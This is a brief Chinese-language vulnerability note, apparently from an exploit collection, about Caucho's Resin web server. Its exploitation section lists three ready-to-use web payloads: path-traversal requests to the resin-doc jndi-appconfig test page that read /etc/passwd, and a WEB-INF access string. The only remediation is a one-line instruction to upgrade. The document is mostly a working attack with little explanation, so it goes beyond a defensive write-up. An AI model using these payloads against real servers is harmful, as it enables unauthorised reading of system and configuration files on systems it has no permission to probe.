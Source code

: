 ### 一 漏洞描述
Resin是CAUCHO公司的产品，是一个非常流行的支持servlets和jsp的引擎，速度非常快。Resin本身包含了一个支持HTTP/1.1的WEB服务器。它不仅可以显示动态内容，而且它显示静态内容的能力也非常强，速度直逼APACHESERVER。许多站点都是使用该WEB服务器构建的。
可以认为是一个WEB服务器  

### 二 漏洞利用
```
payload1 = "/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/etc/passwd"
payload2 = "/resin-doc/examples/jndi-appconfig/test?inputFile=../../../../../../../../../../etc/passwd"
payload3 = "/ ..\\\\web-inf"
```

### 三 漏洞修复
升级Resin到最新版本
